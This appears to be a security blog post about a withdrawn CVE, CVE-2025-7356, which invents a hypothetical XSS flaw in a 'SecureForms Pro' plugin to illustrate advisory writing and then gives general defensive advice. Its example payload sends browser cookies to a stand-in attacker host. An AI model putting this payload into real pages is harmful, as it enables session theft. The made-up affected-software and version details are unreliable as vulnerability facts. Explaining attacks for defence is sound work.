 ## Understanding Potential Risks: A Deeper Look at Vulnerability Communication and CVE-2025-7356 (Withdrawn)

In today's digital landscape, staying informed about software vulnerabilities is paramount for business continuity and data security. While some vulnerability reports lead to immediate action, others, like **CVE-2025-7356**, serve as important reminders of the rigorous process behind public disclosures. Understanding how these issues are identified and communicated—even when they are later withdrawn—is crucial for managing potential risks, protecting sensitive data, and maintaining customer trust.

### Vulnerability Details

*   **CVE ID:** **CVE-2025-7356**
    *   *Note*: This CVE ID has been formally rejected or withdrawn by its CVE Numbering Authority. This typically occurs if the vulnerability report was a duplicate, incorrect, or deemed not a valid security flaw upon further investigation.
*   **Affected Software (Hypothetical Example to Demonstrate Communication):**
    For the purpose of illustrating how such vulnerabilities are described, let's consider a hypothetical scenario where this CVE *could* have applied to a widely used component like the **SecureForms Pro** plugin, often integrated into Content Management Systems (CMS).
*   **Affected Versions (Hypothetical):** **SecureForms Pro** versions 2.0.0 through 2.5.1
*   **Technical Cause (Hypothetical):**
    Had this CVE been valid, it might have described a **Cross-Site Scripting (XSS)** vulnerability. This type of flaw typically arises when a web application processes user-supplied input (e.g., in a contact form or comment section) without adequately "sanitizing" or "encoding" it. If an attacker's malicious script is then displayed to another user, their browser might execute it.
*   **Example Payload (Hypothetical):**
    An attacker might attempt to inject a script like:
    ```html
    <script>alert('You have been phished!');document.location='http://malicious.com/?c=' + document.cookie</script>
    ```
    This payload, if successfully injected, could theoretically display a pop-up, steal session cookies, or redirect users.

### Risk Description (Hypothetical)

If a similar **XSS** vulnerability were present and exploitable, an attacker could:

*   **Steal User Data:** Potentially gain access to user session cookies, leading to unauthorized access to user accounts.
*   **Deface Websites:** Alter the content or appearance of web pages visible to other users.
*   **Distribute Malware:** Redirect legitimate users to malicious websites or trick them into downloading malware.
*   **Phishing Attacks:** Craft sophisticated phishing attacks that appear to originate from the legitimate website.

### Who is at Risk (Hypothetical)

Based on our hypothetical example, organizations utilizing the **SecureForms Pro** plugin within their web applications or CMS installations would have been at potential risk, specifically those running the unpatched versions mentioned. Generally, any website or application that handles user-supplied input without robust validation is susceptible to similar vulnerabilities.

### Recommendations (General Best Practices)

While **CVE-2025-7356** has been withdrawn, the principles of defense against such potential flaws remain critical.

*   **For Developers:**
    *   **Input Validation & Output Encoding:** Implement strict input validation on all user-supplied data. Critically, perform robust output encoding when displaying user input back to the browser to neutralize any potentially malicious scripts.
    *   **Security by Design:** Integrate security considerations into every phase of the software development lifecycle.
    *   **Regular Security Audits:** Conduct regular code reviews and penetration testing.
*   **For Website Owners/Administrators:**
    *   **Stay Updated:** Always keep all software, including your CMS, plugins, themes, and server components, updated to the latest stable versions. Patching is your most effective defense.
    *   **Use a Web Application Firewall (WAF):** A WAF can provide an additional layer of defense by filtering malicious traffic before it reaches your application.
    *   **Regular Backups:** Maintain regular, secure backups of your entire website and database.
    *   **Security Monitoring:** Monitor security logs for unusual activity or signs of compromise.

### Reference Link

While the provided link for **CVE-2025-7356** is currently a placeholder due to its withdrawal, a valid reference link would typically direct you to official advisories, vendor patch notes, or detailed security research from organizations like MITRE (for CVE details), or the vendor's security bulletin. For general CVE information, you can always refer to the official CVE database: [https://cve.mitre.org/](https://cve.mitre.org/)